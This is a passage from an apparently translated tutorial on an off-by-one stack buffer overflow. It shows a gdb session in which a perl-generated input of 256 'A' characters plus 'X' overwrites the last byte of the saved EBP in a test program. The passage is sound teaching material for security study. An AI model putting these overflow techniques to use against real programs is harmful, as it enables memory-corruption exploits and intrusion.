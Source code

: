    0x0804849b <+15>: leave  
   0x0804849c <+16>: ret    
End of assembler dump.
(gdb) br f2
Breakpoint 1 at 0x8048444
(gdb) br \*f2+79
Breakpoint 2 at 0x804848a
(gdb) br \*f1+15
Breakpoint 3 at 0x804849b
(gdb) display /i $pc
1: x/i $pc
<error: No registers.>
(gdb)

Now let’s look at the different situations.

(gdb) run \`perl -e 'print "A"x256 . "X"'\`
Starting program: /home/arget/a \`perl -e 'print "A"x256 . "X"'\`

Breakpoint 1, 0x08048444 in f2 ()  
1: x/i $pc  
\=> 0x8048444 <f2+9>: movl $0x0,-0x104(%ebp)  
(gdb)

We have introduced 256 bytes ‘A’ and byte ‘X’. Would not mind introducing more characters, only the last byte of EBP is overwritten, as the number of bytes to be copied is a constant: 257.

(gdb) x $ebp
0xffffd23c: 0xffffd248
(gdb)

Now we see that `EBP(s)` worth 0xffffd248. Let’s see what happens after the loop.

(gdb) c
Continuing.

Breakpoint 2, 0x0804848a in f2 ()  
1: x/i $pc  
\=> 0x804848a <f2+79>: leave  
(gdb) x $ebp  
0xffffd23c: 0xffffd258  
(gdb)

Just before the `leave`, `EBP(s)` `0xffffd258` worth being 0x58 value ‘X’, it shows that we have overwritten the last byte.

(gdb) i r ebp esp
ebp            0xffffd23c 0xffffd23c
esp            0xffffd12c 0xffffd12c
(gdb) nexti
0x0804848b in f2 ()
1: x/i $pc
=> 0x804848b <f2+80>: ret    
(gdb) i r ebp esp
ebp            0xffffd258 0xffffd258
esp            0xffffd240 0xffffd240
(gdb)
